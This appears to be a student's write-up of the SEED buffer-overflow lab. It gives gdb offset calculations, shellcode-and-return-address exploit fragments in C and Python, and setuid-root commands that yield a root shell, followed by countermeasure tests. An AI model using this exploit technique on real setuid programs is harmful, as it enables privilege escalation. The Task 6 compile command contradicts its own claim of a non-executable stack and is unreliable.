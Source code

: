 ```yaml
---
title: Buffer Overflow Vulnerability Lab
author: Xinyi Li
date: \today{}
---
```


Instruction: https://seedsecuritylabs.org/Labs_16.04/PDF/Buffer_Overflow.pdf

# Task 1

The `\bin\zsh` is called. I enter a new shell.

# Task 2

Use default `DBUF_SIZE` (i.e. 24)

## Find the address to attack

```sh
$ gcc -z execstack -fno-stack-protector -g -o stack_gdb stack.c
$ gdb stack_gdb
gdb-peda$ p $ebp
$1 = (void *) 0xbfffeb08
gdb-peda$ p &buffer
$2 = (char (*)[24]) 0xbfffeae8
gdb-peda$ p/d 0xbfffeb08-0xbfffeae8
$3 = 32
```

It shows that the value of the frame pointer is `0xbfffeb08`. So the return address is in `0xbfffeb08 + 4` and the first address we can jump to is `0xbfffeb08 + 8`. The distance between `ebp` and the buffer's starting address is 32. Added by 4 bytes stored the return address above, the distance is 36.

## C version
So use the [`exploit.c`](./exploit.c) to compose the `badfile`. The critical code part as below:

```c
int start = 517 - sizeof(shellcode);
strcpy(buffer + start, shellcode);
// set the return address to the location of the malicious command in buffer
int ret = (0xbfffeb08 + start);
strcpy(buffer + 36, (char *)&ret);
```

Then compile and execute all those files as the order of:
```sh
$ gcc -o stack -z execstack -fno-stack-protector stack.c
$ sudo chown root stack
$ sudo chmod 4755 stack
$ gcc -o exploit exploit.c
$ ./exploit
$ ./stack
```
Then you can see a new root bash start with `#`.

![The root bash](./exploit.png)

## Python version

~~There may be something wrong with the Python code both in the textbook and the instruction's template. I believe that the return address should be modified with `ret + offset of the malicious command` instead of just `ret`. And I verified it in our lab.~~

```sh
$ python3 exploit.py
$ ./stack
#
```

Full code available in [`exploit.py`](./exploit.py). Here shows the critical part:

```{.python}
ret = 0xbfffeb08 # replace 0xAABBCCDD with the correct value
offset = 36 # replace 0 with the correct value
# Fill the return address field with the address of the shellcode
content[offset:offset + 4] = (ret + start).to_bytes(4, byteorder='little')
```




# Task 3

- **Without `setuid(0)`**: start a new bash (under user `seed` and start with `$`)
- **With `setuid(0)`**: start a new bash (under user `root` and start with `#`)

Yes, It still works. Because in the additional shell code, the function `setuid(0)` is called to get root priviledge.

# Task 4

![](./brute_force.png)

# Task 5

## Turn on the StackGuard Protection

```sh
$ gcc -o stack -z execstack stack.c
$ sudo chown root stack
$ sudo chmod 4755 stack
$ ./stack
*** stack smashing detected ***: ./stack terminated
Aborted
```

# Task 6

## Turn on the Non-executable Stack Protection

```sh
$ gcc -o stack -z execstack stack.c
$ sudo chown root stack
$ sudo chmod 4755 stack
$ ./stack
Segmentation fault
```

The buffer overflow does occur. But the non-executable stack protection prevents the crash program from running the shellcode.







